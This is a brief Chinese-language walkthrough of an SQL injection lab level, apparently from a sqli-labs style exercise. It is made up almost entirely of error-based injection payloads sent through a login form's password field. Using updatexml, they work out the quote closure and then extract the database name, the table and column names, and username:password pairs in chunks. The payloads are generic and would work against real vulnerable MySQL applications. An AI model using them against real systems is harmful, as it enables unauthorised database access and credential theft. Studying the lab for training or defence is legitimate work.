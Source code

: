 # 确认闭合状态
输入：passwd=1&submit=Submit&uname=1  
失败

输入：passwd=1' or 1=1 --+&submit=Submit&uname=1  
失败

输入：passwd=1" or 1=1 --+&submit=Submit&uname=1
正常，但无回显

其他与上一关一样

# 查询数据库名
passwd=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&submit=Submit&uname=1

# 查询表名
passwd=1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+&submit=Submit&uname=1


# 查询列名
passwd=1" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+&submit=Submit&uname=1


# 查询值
passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+&submit=Submit&uname=1

passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+&submit=Submit&uname=1

passwd=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+&submit=Submit&uname=1

...